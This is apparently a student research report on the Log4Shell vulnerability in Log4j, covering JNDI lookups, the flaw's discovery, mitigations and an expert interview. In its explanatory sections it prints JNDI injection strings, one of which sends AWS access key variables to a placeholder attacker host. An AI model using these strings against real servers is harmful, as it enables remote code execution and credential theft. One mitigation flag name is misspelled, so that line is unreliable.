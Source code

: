 # How did the Log4j vulnerability become the threat that it was?

## Research Method
Below are all the methods I used for this research. the methods will be from the [DOT Framework](https://ictresearchmethods.nl/Methods)
The methods used are:
- Literature Study
- Expert Interview

## What is Log4j?
Log4J is a widely used open source java logging library originally written by Ceki Gülcü. It is used in most moderately sized Java projects. It can be used to track thing like error messages or debug messages, which are then stored or *logged*. Apache describes Log4J as follows:
> log4j is a tool to help the programmer output log statements to a variety of output targets.In case of problems with an application, it is helpful to enable logging so that the problem can be located. With log4j it is possible to enable logging at runtime without modifying the application binary. The log4j package is designed so that log statements can remain in shipped code without incurring a high performance cost. It follows that the speed of logging (or rather not logging) is capital.

> log4j is designed with three goals in mind: reliability, speed and flexibility. There is a tight balance between these requirements. We believe that log4j strikes the right balance.




## Why is Log4shell a big deal?
Log4shell (CVE-2021-44228) is a nickname for an severe vulnerability in Log4J. The vulnerability has existed since 2013, and was only "discovered" and privately disclosed to the [Apache Software Foundation](https://en.wikipedia.org/wiki/The_Apache_Software_Foundation) on 24 November 2021. According to the Common Vulnerability Scoring System ([CVSS](https://nvd.nist.gov/vuln-metrics/cvss)) this vulnerability scores a 10/10 for it's severity. This is because this vulnerability enables Remote Code Execution (RCE). Which allows hackers to be able to run any code on your machine. This is also why it is called Log4Shell, because it's almost like anyone can open a [Shell](https://datacarpentry.org/shell-genomics/01-introduction/) on any server that uses Log4J.

According to Snyk, an open source security platform, 60.8% of java projects that use Log4J use it indirectly. Which means that the project has libraries that in turn use Log4J. So even developers that can't directly see that they are using Log4J aren't safe from the vulnerability.
![image](https://user-images.githubusercontent.com/77112006/147350753-63dac8cd-8d3b-4244-ade5-ea239dde1b3c.png)
source: https://snyk.io/blog/log4j-vulnerability-software-supply-chain-security-log4shell/

## How does Log4shell work?
There are several factors, which together are responsible for the vulnerability. So first we'll have a look at some features wihtin Log4j and java, and then we'll illustrate how the vulnerability works.

### Logging expressions
Log4j allows developers to log expressions. See the code below
```java
logger.info("{} has logged in using id {}", map.get("Name"), user.getId());
```
In this example you're logging a string. And you're plugging the value that gets returned from ```map.get("Name")``` and ```user.getId()``` into that string. On itself, this isn't a problem.

### JNDI
Java Naming and Directory Interface (JNDI) is a java feature that allows distributed applications to look up services in an abstract, resource-independent way. Allowing a developer to store java objects somewhere, and then serialize them to their JVM. This is the way that distributed java application used to work, but this way of distributing has fallen out of fashion some time ago. Nevertheless, this features still remains in java today.

### JNDI lookup while logging expressions
In 2013, a cotributer made a change to Log4j that allowed the developer to do the above described JNDI lookups in a log message. making the code below possible
```java
logger.info("{} has logged in using id {}", "${jndi:ldap://logconfig/example/name}", user.getId());
```
The code above is the vulnerability. Let's say a vulnerable application logs a users input. A user could then input a string like ```${jndi:ldap://myserver/malicious_code}```. Log4J will see this and try to look up this JNDI. Which would then introduce a malicious java object into the JVM.  

## How did Log4Shell get discovered?
According to [this source](https://www.npr.org/2021/12/14/1064123144/companies-scramble-to-defend-against-newly-discovered-log4j-digital-flaw?t=1640603508585) A researcher working for Chinese tech firm Alibaba discovered the bug and privately informed the Apache Software Foundation. It accidentally went public after the popular word building video game Minecraft made its disclosure and the researcher posted about it online. 


## What are the potential fixes for severe vulnerabilities like Log4Shell?
First of all, there are some simple mitigations which can stop some of the damage being done to your application. The first one is to disable lookups by setting the following flags to false.
```
com.sun.jndi.ldap.object.trustURLCodebase
com.sun.jdni.rmi.object.trustURLCodebase
```
This however won't stop your application from actually making the call. It only stops the contents of that call from doing anything. This still enables hackers to make your application leak it's environment variables, like in the code below:
```java
${jndi:ldap://attackerip/exploit/${env:ACCES_KEY_ID}/${env:SECRET_ACCES_KEY}}
```
You could also disable Log4j, which obviously isn't a very good temporary solution. 
A more definitive way of fixing the vulnerability is to  update log4j to version 2.16 or above. This can be rather difficult, since an application can have dependencies on things, which then have dependencies on Log4j. You would either have to wait for that dependency to publish an update, or if you're using gradle, you could use a function called dependency constraints.
Another way that some companies used to fix it is to directly patch it. Which may be the eassiest option in some cases.

![image](https://user-images.githubusercontent.com/77112006/147350117-701b817a-cda4-412c-b85e-89865f4fa72d.png)

## How did affected developers deal with this situation?
After the news of this exploit was made public, virtually every tech companies number one priotity was to find a way to fix it within their software, before any hacker could exploit it. The Washington post stated 
> At Google alone, more than 500 engineers had been going through reams and reams of code to make sure it was safe, according to one employee.

### Expert Interview

1. In what way did you get effected by the Log4j vulnerability?
> I am currently a junior at a cyber security firm that actively assisting OT vendors in locating the Log4Shell vulnerability within their product lines. 

2. How did you receive the first signs that something regarding security was wrong?
> Once CVE-2021-44228 was published and details of the RCE vulnerability were surculating within the .
 
3. Did you have any type of protocols to follow in case of an emergency like this? If not, do you have them now? 
> Yes, service patches and firewall rules were pushed out to mitigate potential exposer to corporate resources. 

4. What was the first things you did after you were notified of the Log4j vulnerability?
> Checked our own exposure, third party software and patching where possible. Eg: AWS elasticache service was affected but we were not made aware until AWS published an emergency patch to mitigate the vulnerability on their end. 

5. Did you notice any unusual amounts of stress in yourself of your coworkers while this situation unfolded?
> Yes, a sprints worth of work was sidelined to mitigate potential exposure and to address the subsequent CVE's that were released.

6. What steps were taken to resolve the issue? 
> As our exposure was very limited I am not sure. That discussion is being had at a higher level.

> Firms like Synopsys (blackduck) and aDolus (FACT)  have solutions that would help mitigate this kind of issue from happening again. IMO zero days like this will probably become more prevalent before things get better.




Sources:
- [Log4J Vulnerability (Log4Shell) Explained - for Java developers. (2021, 16 december). [Video]. YouTube.](https://www.youtube.com/watch?v=uyq8yxWO1ls&t=1037s&ab_channel=JavaBrains)
- [Tal, L. (2021, 20 december). The Log4j vulnerability and its impact on software supply chain security. Snyk. Geraadpleegd op 24 december 2021](https://snyk.io/blog/log4j-vulnerability-software-supply-chain-security-log4shell/)
- [Apache log4j 1.2 - Frequently Asked Technical Questions. (z.d.). Apache. Geraadpleegd op 24 december 2021]( https://logging.apache.org/log4j/1.2/faq.html)
-  [Yan, Tao; Deng, Qi; Zhang, Haozhe; Fu, Yu; Grunzweig, Josh (10 December 2021). "Another Apache Log4j Vulnerability Is Actively Exploited in the Wild (CVE-2021-44228)".](https://unit42.paloaltonetworks.com/apache-log4j-vulnerability-cve-2021-44228/)
-  [NVD - Vulnerability Metrics. (z.d.). NVD. Geraadpleegd op 24 december 2021](https://nvd.nist.gov/vuln-metrics/cvss)
-  [What is JNDI? What is its basic use? When is it used? (2010, 6 december). Stack Overflow. Geraadpleegd op 27 december 2021](https://stackoverflow.com/questions/4365621/what-is-jndi-what-is-its-basic-use-when-is-it-used)
-  [Hunter, T., & De Vynck, G. (2021, 20 december). The ‘most serious’ security breach ever is unfolding right now. Here’s what you need to know. Washington Post. Geraadpleegd op 27 december 2021](https://www.washingtonpost.com/technology/2021/12/20/log4j-hack-vulnerability-java/#LSWMB3XKYRALRAPBVQHPTFUQSI)
